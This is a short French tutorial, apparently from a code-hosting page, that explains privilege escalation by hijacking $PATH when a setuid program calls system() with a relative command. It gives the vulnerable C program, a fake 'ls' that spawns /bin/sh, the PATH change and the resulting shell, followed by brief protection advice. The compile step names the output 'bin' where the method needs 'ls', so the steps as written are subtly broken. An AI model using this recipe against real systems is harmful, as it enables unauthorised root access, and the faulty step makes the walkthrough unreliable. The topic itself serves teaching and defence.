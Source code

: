 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    aas@ubuntu:~$ cat vuln.c
    
    void main()
    {
      system("ls -l");
    }

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    aas@ubuntu:~$ ./vuln
    
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    aas@ubuntu:~$ cat exploit.c 
    
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    
    aas@ubuntu:~$ gcc exploit.c -o bin


### Modification de $PATH
    aas@ubuntu:~$ PATH=.:$PATH


### Execution
    aas@ubuntu:~$ ./vuln 
    $
    
## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

